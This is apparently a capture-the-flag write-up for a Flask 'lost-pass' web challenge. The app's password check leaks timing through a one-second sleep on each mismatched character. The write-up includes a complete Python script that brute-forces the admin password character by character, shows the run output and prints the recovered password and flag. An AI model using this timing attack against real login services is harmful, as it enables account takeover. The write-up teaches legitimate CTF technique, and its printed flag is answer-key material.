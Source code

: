# lost-pass

[library.m0unt41n.ch/challenges/lost-pass](https://library.m0unt41n.ch/challenges/lost-pass) ![](../../resources/web.svg) ![](../../resources/medium.svg) 

# TL;DR

We get a Flask application, doing pretty much nothing except of auth and some
status page.

# First look

From the code, it seems that the flag will be shown when we manage to log in as
`admin` user.

 "Registration" seems somewhat broken, the only way seems to be doing a manual
 `POST` request (and it works).

# Wrong ideas

I ratholed quite a bit at first - one observation was that the `authorization`
cookie contains only `id` and `exp`, so, I was trying to:

*   Create a user
*   Dissect the cookie ([lddgo.net](https://www.lddgo.net/en/base/class?classID=3))
*   Try to craft a cookie with ID 1 instead of 2

But that would require brute-forcing `SECRET_KEY` - which is 20 bytes (40 hex
digits), too long for that.

Another observation was that the password is stored as a weird, long combination
of md5 hashes:

```python
def hash_char(char):
    return hashlib.md5(char.encode()).hexdigest()[:20]
(...)
hashed_password = ','.join([hash_char(c) for c in password])
user = db.createUser(username, hashed_password)
```

So, these hashes would have not very diverse prefixes - just few different hex
strings representing initial character.

# Timing leak

Anyway, all that was moot. It's much simpler &#128578;

```python
def error_log(username, password):
    if username == "admin":
        f = open("error.log", "w")
        time.sleep(1)
        f.write(f"SOMEONE TRIED TO LOGIN AS ADMIN USING {password} !!!1!11!!")
        f.close()
    return False

def check_password(username, hashed_password, password):
    hashed_password = hashed_password.split(",")

    for x in range(len(hashed_password)):
        try:
            if hash_char(password[x]) != hashed_password[x]:
                return error_log(username, password)
        except:
            return False
    return True
```

`check_password()` loops through characters one-by-one and, on error, bails out
with `error_log()`. Which has a `sleep(1)`. Which makes it for a trivial timing
attack. Note the `try ... except` block - when the input password is shorter
than the saved one, the function will return `False` as well, but **without**
waiting. All this helps in writing the exploit.

# Getting the password

We need to pick an "unlikely" character, which will help to both recognize a
failure (when we ran out of candidates) and end of string. We'll use `#`.

```python
import requests
import re
import time

# Starts with unlikely character
CHARSET = "#abcdefghijklmnopqrstuvwxyz0123456789_ABCDEFGHIJKLMNOPQRSTUVWXYZ{}!$%&()+,-./:;<=>@[]^`|#"
URL = "http://localhost:5000/login"

def get_password(url, charset):
    pwd = ""
    while True:
        for c in CHARSET:
            print("Trying: "+pwd+c)
            t = time.time()
            resp = requests.post(URL, data={"username": "admin", "password": pwd+c})
            if (time.time() - t) < 0.5:
                if c == '#':
                    return (pwd, resp)
                else:
                    pwd += c
                    break
        if c == '#':
            return None

(pwd, resp) = get_password(URL, CHARSET)
print("Admin password: "+pwd)
flag = re.compile(r"Your secret is: [^<]+").search(resp.text)[0][16:]
print("FLAG: "+flag)
```

Running this against the remote instance:

```
$ ./get_pass.py
Trying: #
Trying: a
Trying: b
Trying: c
Trying: d
Trying: d#
Trying: da
(...)
Trying: ducksnicc
Trying: ducksnicd
Trying: ducksnice
Trying: ducksnice#
Admin password: ducksnice
shc2023{ducks_like_2_sleep_quack}
```

---

## `shc2023{ducks_like_2_sleep_quack}`


<hr>

&copy; [muflon77](https://library.m0unt41n.ch/players/805ae1c8-9fe4-5816-b4a4-5057fa6eedb1)
